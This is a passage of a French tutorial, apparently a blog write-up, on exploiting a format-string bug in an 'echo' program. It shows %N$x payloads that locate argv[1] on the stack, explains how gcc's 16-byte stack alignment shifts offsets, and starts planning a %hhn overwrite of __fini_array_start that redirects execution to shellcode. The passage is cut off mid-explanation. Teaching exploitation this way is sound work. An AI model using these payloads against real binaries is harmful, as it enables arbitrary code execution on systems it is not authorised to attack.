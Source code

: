 Le début se trouve en position 115 :

```console
oj@hell:~$ ./echo AAAABBBBCCCCDDDD%115\$.8xZ
AAAABBBBCCCCDDDD41414141Z
```

Mais en augmentant à nouveau la longueur (length = 33) le début de `argv[1]` est à nouveau en position 117 (hu ?) :

```console
oj@hell:~$ ./echo AAAABBBBCCCCDDDD%117\$.8x%118\$.8xZ
AAAABBBBCCCCDDDD4141414142424242Z
```

Toujours en augmentant (length = 41), la chaine repasse en position 115 ^\_^

```console
oj@hell:~$ ./echo AAAABBBBCCCCDDDD%115\$.8x%116\$.8x%117\$.8xZ
AAAABBBBCCCCDDDD414141414242424243434343Z
```

Mais en prolongeant la chaine de 8 caractères (length = 49), la position de nos `AAAA` repasse à 117.

```console
oj@hell:~$ ./echo AAAABBBBCCCCDDDD%117\$.8x%118\$.8x%119\$.8x%120\$.8xZ
AAAABBBBCCCCDDDD41414141424242424343434344444444Z
```

La réponse à cette énigme n'est cette fois pas dans la page de manuel de `printf` ni dans la bouche de l'Oracle dans *Nethack* mais dans la page de manuel de gcc :  

> -mpreferred-stack-boundary=num  
> 
>  Attempt to keep the stack boundary aligned to a 2 raised to num byte boundary.
>  If -mpreferred-stack-boundary is not specified, the default is 4 (16 bytes or 128 bits).

C'est donc gcc qui aligne la pile sur 16 octets.  

Le début de notre chaine était en position 117 pour les longueurs 17, 33 et 49. Or 17 + 16 = 33 et 33 + 16 = 49.  

De même pour les positions 115 on a 25 + 16 = 41.  

La morale de cette histoire ? Si vous agrandissez votre chaine de format lors d'une exploitation, arrondissez toujours la quantité de caractères supplémentaires à un multiple de 16. Le padding qui était présent au début doit aussi rester.  

Pwning echo
-----------

Admettons maintenant que l'adresse du shellcode placé en mémoire est `0xbfffffd2`.  

On commence par mettre en début de buffer les adresses correspondantes à chaque octet de `__fini_array_start` (`0x0080c9614`), on aura donc déjà 16 (4\*4) octets écrits.  

Il faut ensuite placer une chaîne de format qui écrit 0xd2 - 16 = 194 octets puis utiliser le formateur `%hhn` pour écrire l'octet.
Le second octet à écrire est `0xff`. On utilisera donc `%45x` (0xff - 0xd2 = 45).  
